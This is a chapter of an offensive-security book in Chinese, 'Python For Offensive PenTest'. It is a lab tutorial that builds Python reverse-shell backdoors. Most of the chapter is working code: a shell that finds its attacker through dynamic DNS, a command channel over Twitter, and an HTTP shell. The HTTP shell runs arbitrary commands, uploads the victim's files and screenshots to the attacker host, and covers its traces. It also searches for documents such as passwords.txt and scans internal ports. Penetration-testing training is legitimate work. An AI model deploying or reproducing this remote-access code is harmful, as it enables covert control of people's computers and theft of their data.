


# 第二章：高级可脚本化 Shell

在上一章中，我们创建的后门问题在于，如果攻击者的 IP 地址发生变化，我们没有内建机制来通知目标它应该连接到新的 IP 地址。本章将介绍一种方法，即使 IP 地址发生变化，你也可以为你的攻击者机器保留一个固定的预定名称。

本章将涵盖以下主题：

+   动态 DNS

+   与 Twitter 交互

+   模拟 Metasploit 的屏幕捕捉

+   模拟 Metasploit 搜索内容

+   集成一个低级端口扫描器

# 动态 DNS

现在，我们将在这里讨论的其中一种方法是动态 DNS。假设攻击者的 IP 地址在第 1 天是 `1.1.1.1`，然后在第二天，我们得到一个 IP 地址 `2.2.2.2`。那么，我们的目标如何知道新的 IP 地址呢？答案就是**动态 DNS**（**DDNS**）。它是一种方法，可以在 DNS 服务器上为你保留一个唯一的名称。当保留的名称是固定的时，每次你更改公共 IP 地址时，相关联的 IP 地址也会变化。为了演示，我们将使用 [noip.com](https://www.noip.com/)。它提供了免费的动态 DNS 服务。因此，我之前已经保留了一个名为 `pythonhussam.ddns.net` 的名称。所以，在目标端，我们不再在脚本中硬编码 IP 地址，而是对这个名称进行 DNS 查询，然后获取 IP 地址来建立连接。现在，你可能会问：当攻击者的 IP 地址发生变化时，如何通过 [noip.com](https://www.noip.com/) 知道新的 IP 地址并更新其 DNS 记录？答案是通过一个软件代理，它应该安装在我们的 Kali 机器上。该代理会连接到 [noip.com](https://www.noip.com/) 的服务器，并通知它们我们的新 IP 地址。

为了节省时间，你可以在 [noip.com](https://www.noip.com/) 创建一个免费账户。这个过程应该非常简单直接。然后，预定一个你选择的名称，接下来的章节中，我们将会在 Kali Linux 上安装**No-IP 代理**，并修改我们之前的 TCP 反向 Shell 版本中的代码，以解析`pythonhussam.ddns.net`的 DNS 查询，这将是我们为演示目的保留的名称。

# 支持 DNS 的 Shell

在这一部分中，我们将从在 Kali Linux 机器上安装 No-IP 代理开始。确保我们的 Kali 机器已连接到互联网，以便下载和安装代理软件：

1.  执行以下命令以解析到 `/usr/local/src/`：

```
cd /usr/local/src/
```

1.  下载代理软件：

```
wget http://www.no-ip.com/client/linux/noip-duc-linux.tar.gz
```

1.  提取文件：

```
tar xf noip-duc-linux.tar.gz
```

1.  `cd` 进入我们刚刚提取的 `noip` 文件夹：

```
cd noip-2.1.9-1/
```

1.  安装代理：

```
make install
```

所以，此时，它会提示你输入在 [noip.com](http://noip.com) 网站注册时使用的 `email` 和 `password`。我将在这里输入我的电子邮件地址。现在我们可以看到 `pythonhussam.ddns.net` 已经注册到我们的账户，并且一个新的配置文件已经创建：



现在，让我们跳转到目标机器。在 Python 中，进行 DNS 查询非常简单。只需要一行代码来解析 IP 地址，我们将使用 `socket.gethostname` 或 `socket.gethostbyname` 来完成，如下代码所示：

```
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read no-ip.com terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest

# DDNS Aware Shell

import socket 
import subprocess 
import os

...

def connect(ip):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, 8080)) # instead of hardcoding the ip addr statically we pass our ip variable 

...

def main ():
    ip = socket.gethostbyname('pythonhussam.ddns.net') # We will use the os to send out a dns query for pythonhussam.ddns.net
    print "Resolved IP was: " + ip # Please don't forget to change this name to yours :D
    connect(ip) # we will pass the ip variable which contains the attacker ip to connect function 
main()
```

然后，我们将结果存储在一个名为 `ip` 的变量中，它是攻击者机器的 IP 地址。现在，我们只需注释掉 `connect(ip)` 函数，并打印出结果，以确保我们的脚本在这里运行正常。所以我们将运行该模块，它会显示 IP 地址为 `37.202.101`，如下所示：

```
>>>
Attacker IP is: 37.202.101.240
>>>
```

让我们回到攻击者机器，并通过在 Google 上搜索 `what is my ip address` 来验证我们的公网 IP 地址。如果一切顺利，我们将看到目标机器识别出的与攻击者机器的更新公网 IP 地址相同的地址。

所以，由于 IP 变量存储了我们攻击者的 IP 地址，我们将这个值传递到连接函数中，并使用这个值连接回攻击者的机器。

请注意，我们已经用一个名为 `ip` 的变量替换了 `s.connect((ip, 8080))` 中的静态 IP 地址。

# 与 Twitter 互动

现在，我们将讨论一种当前常用的技术：依赖于知名服务器来执行某些任务或传输信息。俄罗斯的恶意软件使用了这种技术。攻击者的做法是，他们通过自己的 Twitter 账户发送数据，并让目标在稍后解析它。所以，在攻击者的机器上，我们只是发送一个正常的推文作为命令到我们的 Twitter 账户。注意，攻击者与目标之间没有直接的通信，这正是其中的邪恶之处。稍后，目标将解析推文并执行该命令。这样做的好处有：

+   Twitter 是一个受信任的网站，且具有很高的声誉；很可能它是一个白名单网站。

+   这种类型的攻击非常难以检测，一个缺乏经验的安全团队绝对不会想到这些数据可能是恶意的——而我在这里的目标之一就是让你对这种恶意攻击有警觉。

在下一部分，我们将从 Kali 机器向我们的账户发送一个普通的 `hello` 字符串作为推文。在客户端，我们将解析这条推文，然后打印出结果。

现在，从技术角度讲，任何人都可以在不登录 Twitter 的情况下查看你的推文。我建议你阅读 FireEye 的报告，看看攻击者是如何利用这种情况的，[`www2.fireeye.com/APT29-HAMMERTOSS-WEB-2015-RPT.html`](https://www2.fireeye.com/APT29-HAMMERTOSS-WEB-2015-RPT.html)。

信不信由你，在五行 Python 脚本中，你将通过 HTTPS 连接到攻击者页面，检索 HTML 内容并解析它，最后从推文中提取数据。

# 用三行代码解析推文

为了演示，我在 Twitter 上创建了一个账户。我的个人资料名称是 `@HussamKhrais`。

所以，我将从 Kali 机器登录到我的 Twitter 账户并发送一条推文，我们将看看从目标机器获取这条推文有多么简单。首先，让我们开始创建一条新推文（例如`Hello from kali python`），然后从账户中登出。现在，让我们快速看一下在发布推文后创建的 HTML 页面，通过查看页面源代码。搜索并找到我们刚刚发布的推文。然后，如果我们稍微向左滚动一点，注意到 HTML meta 标签参数：

```
<meta name="description" content="The latest Tweets from Hussam Khrais (@HussamKhrais): &quot;Hello from kali python&quot;">
```

第一个参数`name`的值是`description`，第二个参数`content`包含了我们的推文。现在，我们将使用这些 HTML 标签来解析 HTML，并最终提取推文。

Python 有一个叫做 Beautiful Soup 的库，这是一个非常著名的工具，用于解析 HTML 页面。你可以从以下地址下载：[`pypi.python.org/pypi/BeautifulSoup/`](https://pypi.python.org/pypi/BeautifulSoup/)。

要安装这个库，只需导航到 Beautiful Soup 所在的目录，然后运行`python setup.py`并进行安装。

让我们快速看一下代码，这是我们将在目标端使用的：

```
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read Twitter terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest

# Tweets Grabber

from BeautifulSoup import BeautifulSoup as soupy
import urllib
import re

html = urllib.urlopen('https://twitter.com/HussamKhrais').read()
soup = soupy(html)
#Navigate to my twitter home page HussamKhrais, store the HTML page into html variable and pass it
#to soupy function so we can parse it

x = soup.find("meta", {"name":"description"})['content']
print x
#Here we search for specific HTML meta tags, please see the video to know how did i find these parameters :) 

filter = re.findall(r'"(.*?)"',x) # After parsing the html page, our tweet is located between double quotations
tweet = filter[0] # using regular expression we filter out the tweet 
print tweet

```

所以，使用`urllib`或者 URL 库，我们将浏览到我的 Twitter 主页。一旦我们获取到 HTML 页面，就会把它存储到`html`变量中。然后，我们将 HTML 页面或变量传递给`soupy`函数。记得包含我们推文的 HTML meta 标签吗？我们将使用 Beautiful Soup 的`find`函数查找它。所以，我们将寻找一个`meta name`和`description`的值。使用正则表达式，我们将进行最后的筛选，仅打印出引号之间的精确字符串，这基本上就是我们发送的推文。运行脚本时，你会看到我们返回了发送的相同推文。

所以，我们将稍微清理一下代码，删除`print x`命令。我们将再次登录 Twitter 账户，并发送另一条推文。这一次，我们将推文内容设为`We made it`。所以，在目标端，运行脚本时，我们应该能够看到最新的推文。

请记住，我们能够在没有任何登录或身份验证的情况下获取到推文。接下来的部分，你将看到如何在实际场景中使用这个信息或脚本。

# 对策

在这一部分，我们将讨论针对与 Twitter 交互的恶意软件可能采取的对策。现在，请注意我说的是可能的对策，因为这并不是一件容易的事；这是因为以下原因之一：

+   阻止 Twitter

+   终止 SSL

你首先想到的可能是简单地封锁 Twitter，这肯定能阻止攻击。然而，如果你为一家社交营销公司工作，或者你的日常工作涉及使用 Twitter，那这种做法就不可行了。并且，问题不仅仅限于 Twitter。假设目标从 Instagram 下载了一张图片，然后，利用隐写术，目标解析出图片中的隐藏文本或命令。你可能会想到的第二点是，我们已经看到 Twitter 主页使用 HTTPS，流量是加密的。你可能会认为，我们可以简单地终止 SSL 并查看明文流量。那么，假设我们有一个解密设备，能够看到明文的推文和传输路径。问题是：我们需要哪些资源来检查从我们网络到 Twitter 之间的每一个数据包？因为可能会有 100MB 的数据流量。而且，如何区分哪些是好的，哪些是坏的呢？

假设我们有一条推文写着，`Follow this website`。那么，如何在不主动检查该网站的情况下判断它是恶意网站还是无害网站呢？总的来说，这将是我们流程中的一个更大头疼的问题。这里还有一个需要考虑的点是：如果推文本身被加密了呢？所以，攻击者可能将这条推文加密为 AES，并发送到 Twitter，待它到达目标方后再解密回来，而不是看到"hello world"或者`ipconfig`。

此外，攻击者还可以通过误导观察流量的任何人来进行攻击。他可以让恶意软件解析数百个 Twitter 页面，除了黑客页面之外，这会让我们重新回到之前讨论的资源问题。最后但同样重要的是，攻击者可以发布另一个 IP 地址的推文，以创建一条连接链。如果你阅读 FireEye 关于俄罗斯恶意软件如何工作的报告，你会发现攻击者发布了一个指向 GitHub 上图像的链接。因此，受害者启动了一个新的 GitHub 会话，这就是所谓的**链式连接**。

所以，如果我们再次考虑如何感染这种恶意软件，这将告诉我们，在当前情景中，前一章中讨论的相同对策依然有效。

# 复制 Metasploit 的屏幕截图功能

在这一节中，我们将自动化捕获目标机器的屏幕截图并通过 HTTP 反向 Shell 获取它。从目标`桌面`获取屏幕截图可以帮助我们查看目标端正在进行的程序和活动。在 Metasploit Meterpreter 中，有一个名为**`screengrab()`**的功能，它将从目标机器拍摄快照并将其传回攻击者的机器。所以在这里，我们将在现有的 HTTP shell 中做类似的操作。为此，我们将在目标机器上使用一个名为`Pillow`的库。这是一个 Python 的高级图像处理库。安装过程非常简单，你只需要通过`cmd`运行`pip install Pillow`即可。

在执行此操作之前，请确保你有互联网连接。安装完这个库后，我将进入 VirtualBox 中的“设备|网络|网络设置...”，并像上一章中一样将网络模式改回内部网络。我们还将为目标分配静态 IP 地址，以便能够连接到攻击者机器。

确保我们通过 ping 攻击者的 IP 地址与其建立了连接。

在我们的 HTTP 代码中，我们首先导入库。所以我们导入`ImageGrab()`函数，并需要添加一个新的`if`语句，表示如果收到`screencap`关键字，那么我们将拍摄快照并将其保存到当前工作目录，文件名为`img.jpg`。然后，我们会将其传输回攻击者机器：

```
# Python For Offensive PenTest

# Screen Capturing

import requests 
import subprocess 
import os
import time

from PIL import ImageGrab # Used to Grab a screenshot

while True: 

    req = requests.get('http://10.0.2.15')
    command = req.text

    if 'terminate' in command:
        break

    elif 'grab' in command:
        grab,path=command.split('*')
        if os.path.exists(path):
            url = 'http://10.0.2.15/store'
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://10.0.2.15', data='[-] Not able to find the file !' )

    elif 'screencap' in command: #If we got a screencap keyword, then .. 
        ImageGrab.grab().save("img.jpg", "JPEG")
        url = 'http://10.0.2.15/store' 
        files = {'file': open("img.jpg", 'rb')}
        r = requests.post(url, files=files) #Transfer the file over our HTTP

    else:
        CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stdout.read() )
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stderr.read() )

    time.sleep(3)
```

现在让我们尝试测试脚本。确保 HTTP 数据泄露服务器脚本在攻击者端运行。一旦我们看到`Shell>`，在攻击者端运行`screencap`，然后进入`桌面`，将文件扩展名更改为`.jpeg`，这样我们就能查看截图。如果我们去到目标机器，你会看到我们的`screencap`图像保存在与脚本相同的当前工作目录中。

现在，问题在于，这非常明显，表明有人在我们的 PC 上进行恶意活动。即使在传输完成后我们删除了图像，目标仍有可能发现我们。为了克服这一点，我们将使用操作系统的`temp`目录来创建一个临时目录，并将图像保存在其中。一旦传输完成，我们将删除整个目录。

Python 有一个内置库，使用操作系统的临时目录。让我们快速看一下。我们将进入命令提示符并打开 Python 交互模式，运行`import tempfile`。这个`tempfile`将处理创建`temporary`目录的任务。但在创建之前，先打开 Windows 的`temp`目录。运行`print tempfile.mkdtemp`，这将为我们创建一个临时目录并打印出所有目录名称。现在，为了删除这个临时目录，我们将使用另一个名为`shutil`的库。我们将导入它，并创建一个新的临时目录。

请注意，一旦我们执行此操作，将会在`temp`目录下创建一个新文件夹。现在，我们将通过运行`shutil.rmtree(x)`来删除它，因为变量`x`包含该`temp`文件夹的名称：



为了在脚本中反映这些更改，我们将返回并编辑目标脚本：

```
# Python For Offensive PenTest

# Screen Capturing

import requests 
import subprocess 
import os
import time

from PIL import ImageGrab # Used to Grab a screenshot
import tempfile # Used to Create a temp directory
import shutil # Used to Remove the temp directory

while True: 

    req = requests.get('http://10.0.2.15')
    command = req.text

    if 'terminate' in command:
        break

    elif 'grab' in command:
        grab,path=command.split('*')
        if os.path.exists(path):
            url = 'http://10.0.2.15/store'
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://10.0.2.15', data='[-] Not able to find the file !' )

    elif 'screencap' in command: #If we got a screencap keyword, then ...

        dirpath = tempfile.mkdtemp() #Create a temp dir to store our screenshot file

        ImageGrab.grab().save(dirpath + "\img.jpg", "JPEG") #Save the screencap in the temp dir

        url = 'http://10.0.2.15/store' 
        files = {'file': open(dirpath + "\img.jpg", 'rb')}
        r = requests.post(url, files=files) #Transfer the file over our HTTP

        files['file'].close() #Once the file gets transferred, close the file.
        shutil.rmtree(dirpath) #Remove the entire temp dir

...
```

首先，我们将创建一个`temp`目录，并将其路径存储在`dirpath`变量中。接下来，我们将告诉`ImageGrab`将`screencap`保存在新创建的`temp`目录中。同时，我们还会修改保存目录。我们还需要将这个更改反映到文件传输函数中，这样它才能知道图像文件的新路径。最后，一旦传输完成，我们必须确保文件被关闭，因为我们不能删除当前正在被应用程序或进程打开的文件。我们将删除整个目录。

尝试一下，确保没有留下任何痕迹。在`temp`目录中对`img`进行过滤，`img`是文件名或图像名称，然后像之前那样运行脚本，看看是否会有任何东西显示出来。一旦我们在攻击者机器上获得了`Shell>`，就运行`screencap`。当你在攻击者端截图后重命名，跳到目标端，看看是否有任何文件被创建。你会发现那儿什么也没有，因为我们在完成传输后删除了`temp`目录。

# 复制 Metasploit 搜索内容

接下来，我们将编写一个 Python 函数，它会在目标目录中搜索，并提供特定文件扩展名的文件位置列表。例如，假设我们需要在目标机器上搜索 PDF 或文档文件；我们不需要检查每个目录，而是将添加一个新函数来自动完成这个任务。这在你首次进入目标机器并尽可能多地探索数据（如文档、PDF 文件等）时非常有用。编写代码部分相当简单。我们将使用 Python 的`os`库来完成这个任务。所以，像往常一样，我添加了一个新的`if`语句来指定，如果我们获取到`search`关键字，我们将执行以下操作：

```
# Python For Offensive PenTest

# Searching for Content

import requests 
import subprocess 
import os
import time

while True: 

    req = requests.get('http://10.0.2.15')
    command = req.text

    if 'terminate' in command:
        break 

    elif 'grab' in command:
        grab,path=command.split('*')
        if os.path.exists(path):
            url = 'http://10.0.2.15/store'
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://10.0.2.15', data='[-] Not able to find the file !' )

    elif 'search' in command: # The Formula is search <path>*.<file extension> , for example let's say that we got search C:\\*.pdf
        # if we remove the first 7 character the output would C:\\*.pdf which is basically what we need

        command = command[7:] # cut off the the first 7 character ,, output would be C:\\*.pdf

        path,ext=command.split('*') # split C:\\*.pdf into two sections, the first section (C:\\) will be stored in path variable and
                                     # the second variable (.pdf) will be stored in ext variable

        list = '' # here we define a string where we will append our result on it
        '''
           os.walk is a function that will navigate ALL the directories specified in the provided path and returns three values:-

            dirpath is a string contains the path to the directory
            dirnames is a list of the names of the subdirectories in dirpath
            files is a list of the files name in dirpath

            Once we got the files list, we check each file (using for loop), if the file extension was matching what we are looking for, then
            we add the directory path into list string. the os.path.join represents a path relative for our file to
            the current directory and in our example it's the C:\\ directory

        '''

        for dirpath, dirname, files in os.walk(path):
            for file in files:
                if file.endswith(ext):
                    list = list + '\n' + os.path.join(dirpath, file)

        requests.post(url='http://10.0.2.15', data= list ) # Send the search result
...       
```

所以首先，我们将格式定义为`search C:\\*.pdf`。请注意，我们只关注第二部分，也就是我们要搜索的目录和文件扩展名。现在，为了清理`received`命令并将其拆分为参数，我们需要去掉前面七个字符；这样做是为了去掉不需要的搜索字符串和空格。现在，如果我们数一数前面七个字符，它将会包括`C`目录；完成这个操作后，输出会干净许多。接下来，我们将字符串拆分为路径和文件扩展名，并将它们存储在路径和扩展名变量中。所以第一个参数将是`path`，它将存储在路径变量中，第二个将存储在扩展名变量中。接下来，我们定义一个列表变量，这将是我们用来存储文件目录的占位符。现在，实际执行搜索的函数是`os.walk(path)`函数。这个函数将遍历提供的`path`目录中所有指定的目录，并返回三个值：`dirpath`，它是包含目录路径的字符串；`dirname`，它是`dirpath`中子目录名称的列表；最后是`files`，它是`dirpath`中所有文件名的列表。

接下来，我们执行另一个循环，检查`files`列表中的每个文件。如果文件的扩展名是我们想要的扩展名，例如`.pdf`，那么我们就将该目录值加入到列表字符串中。最终，`os.path.join()`函数表示相对于当前目录的文件路径，在我们的例子中是`C:\`目录。最后，我们将结果发送回攻击者端。

运行脚本时，作为开始，让我们通过运行以下命令搜索`C:\`目录中的所有 PDF 文件：

```
search C:\*.pdf 
```

接下来，让我们尝试抓取`Documents\Module 3.pdf`：

```
grab*C:\Users\hkrais\Documents\Module 3.pdf
```

我们还可以搜索系统中的每个文本文件。应该会有一大堆文件：

```
search C:\*.txt
```

我们可以缩小搜索范围，仅在`Desktop`目录中进行搜索。

```
search C:\Users\hkrais\Desktop\.txt
```

然后我们在那儿有一个叫做`passwords.txt`的文件。尝试抓取它，并像在上一章一样验证它的内容。

# 目标目录导航

现在，我们将解决一个目录导航问题。现在，问题是浏览目录受到 shell 工作目录的限制。例如，如果目标已经在`Desktop`执行了我们的 Python 脚本，那么我们的工作目录就会是`Desktop`。由于 shell 的限制，我们不能简单地输入`cd`命令并切换到另一个目录。记住，我们学到的一些命令在 shell 中无法执行，`cd`就是其中之一。

一旦我们在两端运行之前的 TCP 反向 Shell，你会看到我们当前的工作目录是在 `Desktop`，也就是我们的 Python 脚本所在的地方。注意，当执行 `cd` 命令来更改当前工作目录到 `C:\Users` 时会发生什么。我们的脚本在尝试执行 `cd C:\Users` 命令时会变得没有响应，这是因为 Shell 未能正确处理 `cd` 命令。现在，为了解决这个问题，我们需要明确地告诉脚本改变它的工作目录。再次强调，这是因为我们的 Shell 工作目录被限制在 Python 脚本的工作目录中。

这里的公式是 `cd` 后跟空格，然后是我们想要进入的路径。接下来，我们将基于空格将接收到的命令拆分成两个变量。幸运的是，改变目录在 Python 中只需一行代码。最后，我们返回一个字符串，表示当前的工作目录：

```
# Python For Offensive PenTest

# Directory Navigation

import socket 
import subprocess 
import os

def transfer(s,path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while packet != '':
            s.send(packet) 
            packet = f.read(1024)
        s.send('DONE')
        f.close()

    else: 
        s.send('Unable to find out the file')

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('10.0.2.15', 8080)) 

    while True: 
        command = s.recv(1024)

        if 'terminate' in command:
            s.close()
            break 

        elif 'grab' in command: 
            grab,path = command.split('*')
            try:
                transfer(s,path)
            except Exception,e:
                s.send ( str(e) )
                pass

        elif 'cd' in command: # the forumula here is gonna be cd then space then the path that we want to go to, like cd C:\Users
            code,directory = command.split (' ') # split up the received command based on space into two variables
            os.chdir(directory) # changing the directory 
            s.send( "[+] CWD Is " + os.getcwd() ) # we send back a string mentioning the new CWD
...
```

一旦我们尝试了之前的脚本，在输入 `cd C:\Users` 后，你将能够看到我们是否已更改或移动到 `Users` 目录：

```
>>>
Shell> cd C:\Users
[+] CWD Is C:\Users
>>>
```

尝试导航到你想要 `grab` 的文件位置。你会注意到，一旦我们在与目标文件相同的目录中，我们就不再需要指定绝对路径。我们可以通过仅指定文件名来直接抓取文件，如下所示：

```
grab*Module 3.pdf 
```

这将使我们能够获取 Kali 机器上的文件。

# 集成低级端口扫描器

在渗透测试中，有时你会遇到这样的场景：你的客户使用某种无法通过互联网访问的内部服务器。仅仅因为这个原因，他们认为这个服务器是安全的。在这一部分，我们将看到如何将一个简单的端口扫描器与我们的脚本集成，以防止可能的攻击。

通常，一旦你进入目标机器，你会开始寻找其他可能的目标。例如，如果我们能够访问机器 A，那么我们可以扩展攻击，扫描机器 B，查看该机器上正在运行的端口和服务。其他用途是让目标代表我们扫描在线服务器，以隐藏我们的活动。现在，让我们进入编码部分。我们将构建一个基本的低级扫描器。之所以称之为低级，是因为我们将使用内置的 socket 库，然后在此基础上进行扩展。发送扫描请求的公式或格式是 `scan` 后跟一个空格，然后是 IP 地址，接着是冒号，再然后是端口列表，例如 `scan 10.0.2.15:22,80`：

```
# Python For Offensive PenTest

#Low Level Port Scanner

import socket # For Building TCP Connection
import subprocess # To start the shell in the system
import os

def transfer(s,path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while packet != '':
            s.send(packet) 
            packet = f.read(1024)
        s.send('DONE')
        f.close()

    else: # the file doesn't exist
        s.send('Unable to find out the file')
...
```

现在，首先要做的是去掉第一个字符，所以这部分内容将被移除。然后，我们将把右边的部分分为两部分。第一部分是我们要扫描的 IP 地址，并将其存储在`ip`变量中。第二部分是我们要检查访问状态的端口列表，这将保存在`ports`变量中。为了保持代码简洁，我们创建了一个名为 scanner 的函数来处理这些事情。所以，我们将`socket`对象、`ip`和`ports`变量传递给这个函数。

一旦获取到这些变量，我们将定义`scan_result`作为一个变量，用来存储我们的扫描结果。现在，请记住，端口是用逗号分隔的，例如：`21, 22, 80, 443, 445`。所以我们要做的是，遍历这些端口并尝试通过`socket`库与每个端口建立连接。请注意，我使用了`connect_ex()`函数，当操作成功时，该函数会返回`0`。在我们的案例中，操作成功了，这意味着连接已经建立，并且端口是开放的。否则，端口将是关闭的，或者主机根本无法访问。最后，我们将关闭套接字并重复整个过程，直到最后一个端口。

```
...
def scanner(s,ip,ports):

    scan_result = '' # scan_result is a variable stores our scanning result

    for port in ports.split(','): # remember the ports are separated by a comma in this format 21,22,..

        try: # we will try to make a connection using socket library for EACH one of these ports

            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            output = sock.connect_ex((ip, int(port) )) #connect_ex This function returns 0 if the operation succeeded, and in our case operation succeeded means that 
        #the connection happens which means the port is open otherwise the port could be closed or the host is unreachable in the first place.

            if output == 0:
                scan_result = scan_result + "[+] Port " +port+ " is opened" +'\n'

            else:
                scan_result = scan_result + "[-] Port " +port+" is closed or Host is not reachable" +'\n'

            sock.close()

        except Exception, e:
            pass
    s.send (scan_result) # finally we send the result back to our kali
...
```

所以我们将从端口`22`开始，直到达到最后一个端口。我们的扫描结果将存储在`scan_result`中，`+`符号用于追加结果。最后，我们将结果发送回我们的 Kali 机器。由于我们的 Kali 机器和目标在同一个虚拟子网中，我们应该出现在目标的`arp`表中。

让我们继续看其余的代码：

```
...
def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('10.0.2.15', 8080))

    while True: # keep receiving commands from the Kali machine
        command = s.recv(1024)

        if 'terminate' in command:
            s.close()
            break # close the socket

        elif 'grab' in command: # grab*C:\Users\Hussam\Desktop\photo.jpeg
            grab,path = command.split('*')
            try:
                transfer(s,path)
            except Exception,e:
                s.send ( str(e) )
                pass

        elif 'scan' in command: # syntax: scan 10.0.2.15:22,80
            command = command[5:] # cut off the leading first 5 char 
            ip,ports = command.split(':') # split the output into two sections where the first variable is the ip which we want to scan and the second variable is the list of ports
                                          # that we want to check its status
            scanner(s,ip,ports)

...
```

在两边运行我们的脚本时，我们会执行`arp -a`，这将显示我们 Kali 机器的 IP 地址：`10.0.2.15`。所以，作为概念验证，我们可以从目标端扫描我们的 Kali 机器，并运行 Wireshark 来确认扫描过程：

```
scan 10.0.2.15:21,23,80,443,445,137,138,8080 
```

一旦我们运行 Wireshark 并过滤 TCP 流量，我们可以看到 TCP 会话的传输。在扫描结果中，我们可以看到端口`8080`是打开的，而其他端口都关闭：

```
>>>
[-] Port 21 is closed or Host is not reachable
[-] Port 23 is closed or Host is not reachable
[-] Port 80 is closed or Host is not reachable
[-] Port 443 is closed or Host is not reachable
[-] Port 445 is closed or Host is not reachable
[-] Port 137 is closed or Host is not reachable
[-] Port 139 is closed or Host is not reachable
[+] Port 8080 is opened
>>>
```

我们可以检查端口`8080`上的 TCP 三次握手过程。我们可以看到`[SYN]`、`[SYN, ACK]`，然后是`[ACK]`，这完成了三次握手；并且我们可以看到，目标在完成三次握手后，发送了一个`[FIN]`请求来关闭套接字，因为我们选择在扫描后关闭套接字。如果你还记得，在这里的代码中我们写了`sock.close()`。所以，`[FIN]`作为关闭套接字的指示符。

现在，为了再三确认，我们可以打开终端查看哪个进程正在使用端口`8080`：

```
netstat -antp | grep "8080"
```

我们会看到它是被另一个 Python 脚本打开的。但是如果我们对端口`21`做同样的操作，我们什么也得不到，因为该端口是关闭的。

做另一个测试：我们将使用`netcat`打开端口`21`：

```
ncat -lvp 21
```

然后，我会再次进行扫描，看看结果是否会发生变化。现在，我们正在监听`21`端口，因为它已经开放。所以，如果我们回到我们的 shell，再次重复相同的扫描；如果它有效，我们应该看到`21`端口是开放的。

# 总结

在这一章，我们学习了 DDNS 和支持 DDNS 的 shell。我们还学习了如何与 Twitter 进行交互，如何复制 Metasploit 的屏幕捕获功能，以及如何搜索内容并查看目标目录导航。最后，我们看到如何集成一个低级端口扫描器。

在下一章，我们将学习密码破解。
